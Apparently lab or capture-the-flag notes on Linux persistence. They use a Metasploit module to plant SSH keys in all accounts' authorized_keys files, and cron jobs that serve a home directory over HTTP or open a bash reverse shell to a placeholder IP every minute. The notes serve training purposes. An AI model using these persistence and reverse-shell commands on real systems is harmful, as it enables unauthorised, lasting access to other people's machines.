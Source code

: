 *To use the Metasploit persistence modules, we will first need to elevate our privileges on the Linux target.*

# Persistence via SSH Keys

```shell
use post/linux/manage/sshkey_persistence
set SESSION <session_number>
set CREATESSHFOLDER true
# We will now need to configure the module options, more specifically, we will need to set the SESSION ID and CREATESSHFOLDER options.
# The module will add a public SSH key to the authorized_keys file in the home directory of all user and service accounts.

# To use the private key, copy the key and save it as a new file, in this case, we will be saving it in the home directory of the root user on the Kali Linux system as ssh_key.
cp <loot_ssh_location> ssh_key

chmod 0400 ssh_key
# We will then need to assign the appropriate permissions to the file.

# We can now authenticate with the target using the private key via SSH
ssh -i ssh_key root@<target_domain>

# Retrieve the flag
ls -l
cat flag.txt
```

<br>

# Persistence Via Cron Jobs

Local Job Scheduling refers to the ability to create pre-scheduled and periodic background jobs using various mechanisms. Adversaries may use task scheduling to execute programs at system startup or on a scheduled basis for persistence.

```shell
ssh student@<target_IP>
# Check the running processes
ps -eaf # Cron service is running

# Create a cron job which will use the SimpleHTTPServer python module to serve the files present in student user’s home directory
echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron
crontab cron
crontab -l

# Exit the session. Login and delete the wait file
ssh student@<target_IP>
rm wait

# Retrieve the flag
curl demo.ine.local:8000
curl demo.ine.local:8000/flag.txt

# Use nmap to scan for open ports. Since the HTTP server was started, port 8000 should be open.
nmap -p- demo.ine.local

# !! Alternative
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<my-ip>/1234 0>&1'" > cron
crontab cron
crontab -l 
ls

# Exit the session. Login and delete the wait file.
ssh student@<target_IP>
rm wait

# Retrieve the flag.
nc -nvlp 1234
ls -al
cat flag.txt 
# This work every minute
```
